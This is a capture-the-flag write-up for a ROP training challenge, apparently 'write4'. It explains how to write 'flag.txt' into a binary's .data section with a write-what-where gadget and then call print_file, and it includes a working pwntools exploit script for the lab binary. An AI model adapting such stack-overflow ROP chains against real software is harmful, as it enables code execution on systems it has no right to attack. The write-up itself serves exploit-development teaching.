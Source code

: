 # Description

### Cord cut
Our favourite string "/bin/cat flag.txt" is not present this time. Although you'll see later that there are other ways around this problem, such as resolving dynamically loaded libraries and using the strings present in those, we'll stick to the challenge goal which is learning how to get data into the target process's virtual address space via the magic of ROP.

### Differences
Things have been rearranged a little for this challenge; the printing logic has been moved into a separate library. The stack smash also takes place in a function within that library, but don't worry, this will have no effect on your ROP chain. A PLT entry for a function named `print_file()` exists within the challenge binary, simply call it with the name of a file you wish to read (like "flag.txt") as the 1st argument.

### Read/Write
The important thing to realise is that ROP is just a form of arbitrary code execution and if we're creative we can leverage it to do things like write to or read from memory. The question is what mechanism are we going to use to solve this problem, is there any built-in functionality to do the writing or do we need to use gadgets? In this challenge we won't be using built-in functionality since that's too similar to the previous challenges, instead we'll be looking for gadgets that let us write a value to memory such as `mov [reg], reg`.

### What/Where
Perhaps the most important thing to consider in this challenge is where we're going to write our "flag.txt" string. Use rabin2 or readelf to check out the different sections of this binary and their permissions. Learn a little about ELF sections and their purpose. Consider how much space each section might give you to work with and whether corrupting the information stored at these locations will cause you problems later if you need some kind of stability from this binary.

### Decisions, decisions
Once you've figured out how to write your string into memory and where to write it, go ahead and call `print_file()` with its location as your only argument. 

## Solution
The description tells us what to do. We hava a symbol called `usefulGadgets` that contains a trivial write-what-where. We can use `__libc_csu_init+96` in order to initialize the required registers (`r14` and `r15`). Last thing we miss is finding a place where we can write the required string flag.txt and read it back when calling `print_file`. A good candidate is the `.data` section of the ELF because it's both readable and writable.

```python
from pwn import *

context.binary = "./write4"
r = ROP(context.binary)
p = process()
dst = context.binary.get_section_by_name(".data").header.sh_addr
r(r14=dst, r15=b"flag.txt")
r.usefulGadgets()
r.print_file(dst)
print(r.dump())
p.send(b"A" * 40 + r.chain())
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

## Flag
```plain
ROPE{a_placeholder_32byte_flag!}
```
